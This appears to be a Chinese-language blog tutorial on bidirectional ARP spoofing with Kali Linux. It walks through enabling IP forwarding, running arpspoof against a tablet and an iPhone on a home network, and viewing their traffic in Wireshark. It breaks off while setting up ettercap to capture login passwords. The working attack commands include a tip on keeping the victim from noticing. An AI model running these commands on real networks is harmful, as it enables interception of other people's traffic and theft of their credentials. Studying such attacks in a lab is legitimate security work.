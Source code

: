 ### 介绍双向劫持

攻击机一直发送伪造的数据包，欺骗网关自己是靶机，欺骗靶机自己是网关，同时开启路由转发功能，就可以让靶机在正常上网的情况下截获网络数据包，所有数据都会经过攻击机再转发给靶机。

简单来说，就是监听靶机的数据流量 ==> 从而获取到一些敏感信息等等。

### 攻击过程

在此我们将利用kali作为攻击机进行劫持其他主机的数据。

#### 开启转发流量

> 这一步在实战中是比较重要的，因为如果你不把kali开启转发的话。那么你劫持的目标机子是无法上网的，自然会容易引起对方的怀疑。
{: .prompt-info}

```bash
echo 1 >> /proc/sys/net/ipv4/ip_forward   
```

#### 开启劫持攻击（针对平板）

```bash
arpspoof -i eth0 -t 192.168.31.210 -r 192.168.31.1
```

-i 指定进行arp攻击的网卡
-t 目标主机IP
-r 进行双向攻击
最后为网关的IP地址

#### 网络协议包查看

这里我们访问我自己的网站。然后用kali自带的wireshark进行查看：

```sass
ip.addr == 192.168.31.210 # 过滤条件
```

![截图](4f7f7906ebcf1cd6fe0ec89ec20c1447.png)

由于这里我们kali是虚拟机，依托于我们物理机的网卡出口。因此，kali上出去的数据也将会被我们物理机扑捉到。然后我们这里用科来进行查看：

![截图](7ab86570749c4252c783cb3f20e1d144.png)

#### 对Iphone攻击

```bash
arpspoof -i eth0 -t 192.168.31.189 -r 192.168.31.1
```

![截图](9e908602192ddd58996905df2f0f3955.png)

#### 截取登录密码

kali安装：

```bash
sudo apt install ettercap-graphical
```
